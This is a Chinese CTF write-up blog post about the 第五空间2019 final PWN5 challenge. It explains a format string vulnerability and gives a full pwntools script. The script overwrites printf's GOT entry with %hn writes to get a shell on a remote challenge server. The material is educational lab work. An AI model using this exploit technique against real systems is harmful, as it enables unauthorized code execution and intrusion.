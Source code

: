 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      [第五空间2019] 决赛PWN5				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```


# 第五空间2019 决赛PWN5

## 考点

- 格式化字符串漏洞

## 解题过程

1. 首先使用`checksec`工具查看基本信息

![checksec](https://s3.bmp.ovh/imgs/2023/10/23/5fb282a04040137e.png)

​		为32位，canary，dep防护

2. 使用ida工具进行静态分析。

`main`

![main](https://s3.bmp.ovh/imgs/2023/10/23/e3464ffd0f8240a3.png)

​		main函数主要代码如上图所示，可以看见`print((int)v7)`存在格式化字符串输出漏洞，因此可以考虑进行利用（**注：由于输入read限制了输入长度，导致无法通过泄漏canary方法来进行栈溢出攻击。**）

3. 构造python脚本如下，主要思路为修改printf的got表plt地址为要执行的代码地址（若开启full relro则无法使用），然后再代码执行到下一次调用printf函数时会转去执行目标代码。获得shell。

```python
from pwn import *

context(arch="i386", log_level="debug")
# p = process("./pwn")
p = remote("node4.buuoj.cn", 29338)

elf = ELF("./pwn")
printf_got = elf.got["printf"]
info(printf_got)
vuln_1 = str(0x0804)
vuln_2 = str(0x931A-0x0804)

payload = flat(b'%', vuln_1, b'c',b'%17$hn', b'%', vuln_2, b'c', b'%18$hn')
payload = payload.ljust(28, b'\x00')
payload = flat(payload, printf_got+2, printf_got)
# gdb.attach(p, 'b *0x080492BC')
p.sendlineafter(b'your name:', payload)
p.recvuntil(b"Hello,")

p.interactive()
```

## 结果

![result](https://s3.bmp.ovh/imgs/2023/10/23/1c94abe36580b65a.png)
